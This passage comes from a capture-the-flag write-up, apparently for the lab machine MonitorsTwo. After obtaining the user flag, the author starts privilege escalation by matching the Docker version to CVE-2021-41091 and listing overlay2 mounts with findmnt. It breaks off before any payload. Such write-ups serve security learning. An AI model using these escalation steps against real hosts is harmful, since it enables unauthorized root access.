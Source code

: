 We obtained the `user flag`.

## PRIVILEGE ESCALATION
---
After investigating with `pspy` and checking folders, I didn't find anything interesting, so I suspected it might be in another Docker container. I checked the Docker version to see if it was vulnerable.

```bash
marcus@monitorstwo:/tmp$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

I found that the version had a vulnerability called `CVE-2021-41091`.

### CVE-2021-41091 
---

The CVE-2021-41091 vulnerability is a security flaw in `Moby (Docker Engine)` that allows unprivileged users on a Linux system to access and execute programs inside Docker's data directory (typically located in `/var/lib/docker`). This happens due to improperly restricted permissions in the `overlay2` file system, which Docker uses to manage container file systems.

To exploit it, follow these steps:

First, we search for the Docker mounts by running:

```bash
findmnt
```

```bash
marcus@monitorstwo:/tmp$ findmnt
TARGET                                SOURCE     FSTYPE     OPTIONS
------------------------------MORE----------------------------------
├─/run                                tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=402608k,mode=75
│ ├─/run/lock                         tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/c2e40eea6571    nsfs[net:[4026532570]]
│ │                                              nsfs       rw
│ ├─/run/user/1000                    tmpfs      tmpfs      rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1
│ └─/run/docker/netns/84af451fb066    nsfs[net:[4026532632]]
│                                                nsfs       rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756F
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
```
